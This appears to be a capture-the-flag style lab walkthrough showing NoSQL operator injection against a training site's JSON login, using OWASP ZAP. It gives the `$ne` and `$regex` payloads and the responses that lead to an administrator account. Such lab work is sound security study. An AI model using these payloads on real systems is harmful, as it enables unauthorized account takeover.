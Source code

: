 # Lab: Exploiting NoSQL operator injection to bypass authentication [OWASP Zed Attack Proxy]

In ZAP's browser log in as `wiener:peter`, under __History__ tab, find `POST /login` request with body:

```json
{"username":"wiener","password":"peter"}
```

Right-click the request and select "Open in Requester Tab". Change the value of `username` parameter from `"wiener"` to `{"$ne":""}` and click send. Response:

```
HTTP/1.1 302 Found
Location: /my-account?id=wiener
```

Now change the value of the `password` parameter from `"peter"` to `{"$ne":""}` and send the request:

```html
<h4>Internal Server Error</h4>
<p class=is-warning>Query returned unexpected number of records</p>
```

This suggests that our query matched too many users. Now change the value of `username` parameter to `{"$regex":"admin.*"}` and send the request:

```
HTTP/1.1 302 Found
Location: /my-account?id=admin6fn8crcu
```


